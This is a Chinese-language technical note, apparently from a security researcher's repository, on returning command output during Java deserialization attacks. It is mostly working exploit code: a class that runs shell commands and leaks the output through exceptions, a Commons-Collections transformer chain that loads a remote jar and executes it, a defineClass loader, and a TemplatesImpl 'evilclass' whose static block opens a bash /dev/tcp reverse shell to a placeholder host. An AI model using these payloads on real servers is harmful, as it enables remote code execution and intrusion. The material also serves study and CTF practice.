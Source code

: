 # java回显

>一般web服务是想办法获得response对象，可以参考[2021RCTF ezshell](https://github.com/Firebasky/ctf-Challenge/tree/main/RCTF-2021-EZshell)


### URLClassLoader抛出异常

```java
package exploit.firebasky;

import java.io.BufferedInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.InputStream;

public class ErrorBaseExec
{
    public ErrorBaseExec(String cmd) throws Exception{
        do_exec(cmd);
    }

    public static byte[] readBytes(InputStream in)
            throws IOException
    {
        BufferedInputStream bufin = new BufferedInputStream(in);
        int buffSize = 1024;
        ByteArrayOutputStream out = new ByteArrayOutputStream(buffSize);
        byte[] temp = new byte[buffSize];
        int size = 0;
        while ((size = bufin.read(temp)) != -1) {
            out.write(temp, 0, size);
        }
        bufin.close();

        byte[] content = out.toByteArray();

        return content;
    }

    public static void do_exec(String cmd)
            throws Exception
    {
        Process p = Runtime.getRuntime().exec(cmd);
        byte[] stderr = readBytes(p.getErrorStream());
        byte[] stdout = readBytes(p.getInputStream());
        int exitValue = p.waitFor();
        if (exitValue == 0) {
            throw new Exception("-----------------\r\n" + new String(stdout) + "-----------------\r\n");
        }
        throw new Exception("-----------------\r\n" + new String(stderr) + "-----------------\r\n");
    }

    public static void main(String[] args)
            throws Exception
    {
        do_exec(args[0]);
    }
}
```
编译成jar之后可以封装到cc利用链组件中
```java
public static Transformer[] EchoCC() throws Exception  {
        Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(URLClassLoader.class),
            new InvokerTransformer("getConstructor",
                new Class[]{Class[].class},
                new Object[]{new Class[]{URL[].class}}),
            new InvokerTransformer("newInstance",
                new Class[]{Object[].class},
                new Object[]{new Object[]{new URL[]{new URL("http://127.0.0.1:8099/ErrorBaseExec.jar")}}}),
            new InvokerTransformer("loadClass",
                new Class[]{String.class},
                new Object[]{"exploit.firebasky.ErrorBaseExec"}),
            new InvokerTransformer("getConstructor",
                new Class[]{Class[].class},
                new Object[]{new Class[]{String.class}}),
            new InvokerTransformer("newInstance",
                new Class[]{Object[].class},
                new Object[]{new String[]{"ipconfig"}})
        };
        return transformers;
    }
```
### defineClass
其实就是通过ClassLoader去执行(反射)我们自定义类的字节码。

```java
public static String FiletoBytes(String filename) throws Exception{
        String buf = null;
        File file = new File(filename);
        FileInputStream fis = null;
        try {
            fis = new FileInputStream(file);
            int size = fis.available();
            byte[] bytes = new byte[size];
            fis.read(bytes);
            buf = Arrays.toString(bytes);
            fis.close();
            return buf;
        } catch (FileNotFoundException e) {
            e.printStackTrace();
        } catch (IOException e) {
            e.printStackTrace();
        }
        return buf;
    }
    
@Override
    protected Class<?> findClass(String name) throws ClassNotFoundException {
        if (name == myClassName) {
            System.out.println("加载" + name + "类");
            return defineClass(myClassName, bs, 0, bs.length);
        }
        return super.findClass(name);
    }    
```

### 中间件回显
由于没有是研究tomcat等容器的回显。能力有限。


>中间件而言多数重写了thread类，在thread中保存了req和resp，可以通过获取当前线程，在resp中写入回显结果



参考：https://l3yx.github.io/2020/03/31/Java-Web%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%9B%9E%E6%98%BE%E6%80%BB%E7%BB%93/

直接用项目的代码。

在利用tempimpl创建类的时候可以使用如下代码
```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.io.IOException;

public class evilclass extends AbstractTranslet  {
    static {
        try{
            Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/ip/port;cat <&5 | while read line; do $line 2>&5 >&5; done"});
        }catch (IOException e){
            try{
                Runtime.getRuntime().exec(new String[]{"cmd", "/c", "calc"});
            }catch (IOException ee){
            }
        }
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```



>参考：
>
>[Java 反序列化回显的多种姿势](https://www.joyk.com/dig/detail/1624894461629758)
>
>[Java Web代码执行漏洞回显总结](https://l3yx.github.io/2020/03/31/Java-Web%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%9B%9E%E6%98%BE%E6%80%BB%E7%BB%93/)
>
>[通杀漏洞利用回显方法-linux平台](https://www.00theway.org/2020/01/17/java-god-s-eye/)
>
>[linux下java反序列化通杀回显方法的低配版实现](https://xz.aliyun.com/t/7307)
> 
>[Tomcat中一种半通用回显方法](https://xz.aliyun.com/t/7348)     
>
>[Java反射-修改字段值, 反射修改static final修饰的字段](https://www.cnblogs.com/noKing/p/9038234.html)
>
>[基于全局储存的新思路 | Tomcat的一种通用回显方法研究](https://mp.weixin.qq.com/s?__biz=MzIwMDk1MjMyMg==&mid=2247484799&idx=1&sn=42e7807d6ea0d8917b45e8aa2e4dba44)
>
>[tomcat不出网回显连续剧第六集](https://xz.aliyun.com/t/7535)
>
>[前尘——返回执行结果的回显链](https://www.anquanke.com/post/id/253661)
